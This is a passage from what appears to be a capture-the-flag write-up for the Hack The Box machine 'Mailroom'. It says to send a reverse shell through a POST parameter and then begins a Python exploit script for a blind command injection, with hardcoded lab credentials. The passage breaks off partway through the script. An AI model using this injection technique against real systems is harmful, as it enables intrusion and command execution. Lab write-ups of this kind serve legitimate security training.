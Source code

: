 ![](screenshots/tristan-mail-2.png)

3. send reverse shell in `/inspect.php` POST request in `inquiry_id` parameter.

we can access `staff-review-panel.mailroom.htb` directly from ssh shell.

Here is a python script to run from ssh shell to get reverse shell on staffroom app instance.
```py
#!/usr/bin/env python3

"""
Author: poorduck
Date: 2023-04-21
Description: This script exploits a blind local command injection vulnerability in the Mailroom staff-review-panel application
             by sending a crafted HTTP POST request to /inspect.php endpoint using a valid authentication token. 
             The token is received by sending a login request to /auth.php endpoint and waiting for it to be
             received in the user's mail file in the mailroom host filesystem. 

Usage: python3 script.py "[COMMAND]"
                            - Where COMMAND is a system command to execute

Example: python3 script.py "ping -c2 10.10.10.10"

Pre-requirements:
    - Initial shell on the box.
"""

import requests
from re import findall
from urllib.parse import urlparse, parse_qs
from sys import argv
import json
import pickle
import os
from time import sleep

rhost = "http://staff-review-panel.mailroom.htb"

email = "tristan@mailroom.htb"
password = "69trisRulez!"
mail = "/var/mail/tristan"  # User tristan's local mail file path in mailroom host fs

# Send login token to "tristan" email via login
def send_auth_token(url, email, password):
```